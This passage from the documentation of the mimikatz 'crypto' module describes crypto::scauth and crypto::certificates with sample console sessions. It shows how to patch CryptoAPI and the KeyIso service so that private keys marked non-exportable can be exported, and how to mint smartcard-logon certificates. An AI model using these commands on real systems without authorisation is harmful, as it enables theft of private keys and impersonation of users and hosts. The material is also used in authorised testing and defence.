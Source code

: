 ```
mimikatz # crypto::scauth /caname:KiwiAC /upn:user@lab.local /pfx:user.pfx
CA store       : LOCAL_MACHINE
CA name        : KiwiAC
CA validity    : 22/08/2016 22:00:36 -> 22/08/2021 22:10:35
Certificate UPN: user@lab.local
Key container  : {a1bd29ec-4203-4aac-8159-40f28f96335b}
Key provider   : Microsoft Enhanced Cryptographic Provider v1.0
Private Export : user.pfx - OK
```

## certificates
This command lists certificates and properties of theirs keys. It can export certificates too.

**Arguments:**
* `/systemstore` - _optional_ - the system store that must be used (default: `CERT_SYSTEM_STORE_CURRENT_USER`)
* `/store` - _optional_ - the store that must be used to list/export certificates (default: `My`) - full list with [`crypto::stores`](#stores)
* `/export` - _optional_ - export all certificates to files (public parts in `DER`, private parts in `PFX` files - password protected with: `mimikatz`)
* `/silent` - _optional_ - if user interaction is required, then abort
* `/nokey` - _optional_ - do not try to interact with the private key

```
mimikatz # crypto::capi
Local CryptoAPI patched

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::cng
"KeyIso" service patched

mimikatz # crypto::certificates /systemstore:local_machine /store:my /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'my'

 0. example.domain.local
        Key Container  : example.domain.local
        Provider       : Microsoft Software Key Storage Provider
        Type           : CNG Key (0xffffffff)
        Exportable key : NO
        Key size       : 2048
        Public export  : OK - 'local_machine_my_0_example.domain.local.der'
        Private export : OK - 'local_machine_my_0_example.domain.local.pfx'
```

**Remarks:**
* See [`crypto::stores`](#stores) for valid `systemstore` list, and its output for `store` list.
* Non exportable keys (with `KO - ERROR kuhl_m_crypto_exportCert ; Export / CreateFile (0x8009000b)`) can often be exported with [`crypto::capi`](#capi) and/or [`crypto::cng`](#cng)
* Despite [`crypto::capi`](#capi) or [`crypto::cng`](#cng) patch, you must have correct ACL on filesystem to access private keys (UAC... :wink:)
* Some **smartcard** crypto providers can report a successfull private export (it's not, of course :wink:)
